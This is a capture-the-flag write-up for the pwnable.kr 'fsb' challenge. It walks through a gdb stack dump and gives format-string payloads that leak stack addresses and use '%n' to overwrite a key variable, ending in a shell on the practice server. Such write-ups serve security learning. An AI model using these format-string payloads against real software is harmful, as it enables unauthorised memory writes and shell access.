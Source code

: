 # pwnable.kr -- Rookiss -- fsb
If you are a expert of "%n" in `printf`, this challenge is easy.

## 1. Challenge
  > Isn't FSB almost obsolete in computer security?  
  > Anyway, have fun with it :)  
  >   
  > ssh fsb@pwnable.kr -p2222 (pw:guest)  

## 2. Solution
  * Connect via SFTP, get binary file `fsb` and source code `fsb.c`.

  * Open `fsb.c` you can see there is a FSB exploit in function `fsb`, LINE 25. And we have 4 chances to exploit it.

  * Run `fsb` in gdb, and make breakpoint at `*fsb+0xDC`. When trigger breakpoint, you can see:

    ```
    gdb-peda$ stack 128
    0000| 0xffffac90 --> 0x804a100 ("%-1$lx\n")
    0004| 0xffffac94 --> 0x804a100 ("%-1$lx\n")
    0008| 0xffffac98 --> 0x64 ('d')
    0012| 0xffffac9c --> 0x0
    0016| 0xffffaca0 --> 0x0
    0020| 0xffffaca4 --> 0x0
    0024| 0xffffaca8 --> 0x0
    0028| 0xffffacac --> 0x0
    0032| 0xffffacb0 --> 0x0
    0036| 0xffffacb4 --> 0x8048870 ("/bin/sh")
    0040| 0xffffacb8 --> 0x0
    0044| 0xffffacbc --> 0x1
    0048| 0xffffacc0 --> 0xffffd118 --> 0x0
    0052| 0xffffacc4 --> 0xffffdfda --> 0x6f682f00 ('')
    0056| 0xffffacc8 --> 0xfffface0 --> 0x0
    0060| 0xffffaccc --> 0xfffface4 --> 0x0
    0064| 0xffffacd0 --> 0x0
    0068| 0xffffacd4 --> 0x0
    0072| 0xffffacd8 --> 0xffffcf68 --> 0x0
    0076| 0xffffacdc --> 0x8048791 (<main+178>:	mov    eax,0x0)
    0080| 0xfffface0 --> 0x0
    0084| 0xfffface4 --> 0x0
    0088| 0xfffface8 --> 0x0
    0092| 0xffffacec --> 0x0
    0096| 0xffffacf0 --> 0x0
    ```

    As it is x86 platform, function `printf` uses `__cdecl` calling convention. So `"%1$lx"` can print the hex value stored in address `$esp + 4`. `"%11$lx"` prints `dword ptr[$esp + 11 * 4]` and so on.

    Watch the stack info, we can find that `$esp + 56` stores the address of function `fsb`'s first argument. And `$esp + 72` stores the previous `EBP`.

    Then in gdb, type `x /128xw *(void**)$ebp-128*4` to see the stack info of function `main`. We can find that `*(void**)$ebp-17*4`, which also is `prev_ebp-17*4`, stores the address of `key`.

  * So, the first time we use `"%14$lx,%18$lx"` to get the address of function `fsb`'s first argument and previous `EBP` named `prev_ebp`.

    Calculate the offset between `$esp` and `prev_ebp-17*4` and use `"%16c%klln"` to overwrite the value of `key` to 16, where `k` is the offset calculated out divided by 4.

  * After that `key` has been modified to 16 and we don't need the last of 4 exploit chances.

  * Finally wait for at least 3 second, and send `"16"` to get shell.
